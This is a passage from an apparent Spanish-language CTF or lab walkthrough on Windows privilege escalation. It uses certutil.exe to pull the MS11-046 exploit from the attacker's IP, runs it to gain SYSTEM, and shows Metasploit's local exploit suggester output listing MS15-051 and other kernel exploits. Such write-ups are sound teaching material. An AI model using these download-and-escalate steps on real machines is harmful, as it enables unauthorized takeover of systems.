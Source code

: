 Usaremos **certutil.exe** para descargar el Exploit en la máquina víctima:
```batch
C:\Temp>certutil.exe -split -urlcache -f http://Tu_IP/MS11-046.exe
certutil.exe -split -urlcache -f http://Tu_IP/MS11-046.exe
****  En l�nea  ****
CertUtil: -URLCache comando completado correctamente.
```

Y lo ejecutamos:
```batch
C:\Temp>MS11-046.exe
MS11-046.exe
.
c:\Windows\System32>whoami
whoami
nt authority\system
```
Listo, ya somos el **usuario administrador**.

<br>

<h2 id="PostExp2">Probando Exploit: Microsoft Windows - ClientCopyImage Win32k (MS15-051) (Metasploit)</h2>

En este caso, vamos a usar el módulo `post/multi/recon/local_exploit_suggester` para aprovechar que tenemos una sesión de **meterpreter**.

Vamos a configurarlo:
```bash
msf6 exploit(multi/handler) > use post/multi/recon/local_exploit_suggester
msf6 post(multi/recon/local_exploit_suggester) > set SESSION 1
SESSION => 1
```

Lo ejecutamos:
```bash
msf6 post(multi/recon/local_exploit_suggester) > exploit
[*] 192.168.1.80 - Collecting local exploits for x86/windows...
[*] 192.168.1.80 - 203 exploit checks are being tried...
[+] 192.168.1.80 - exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move: The service is running, but could not be validated. Windows Windows Server 2008 build detected!
[+] 192.168.1.80 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 192.168.1.80 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 192.168.1.80 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 192.168.1.80 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 192.168.1.80 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Running check method for exploit 42 / 42
[*] 192.168.1.80 - Valid modules for session 1:
============================
.
 #   Name                                                           Potentially Vulnerable?  Check Result
 -   ----                                                           -----------------------  ------------
 1   exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move   Yes                      The service is running, but could not be validated. Windows Windows Server 2008 build detected!
 2   exploit/windows/local/ms10_015_kitrap0d                        Yes                      The service is running, but could not be validated.
 3   exploit/windows/local/ms15_051_client_copy_image               Yes                      The target appears to be vulnerable.
 4   exploit/windows/local/ms16_016_webdav                          Yes                      The service is running, but could not be validated.
 5   exploit/windows/local/ms16_075_reflection                      Yes                      The target appears to be vulnerable.
```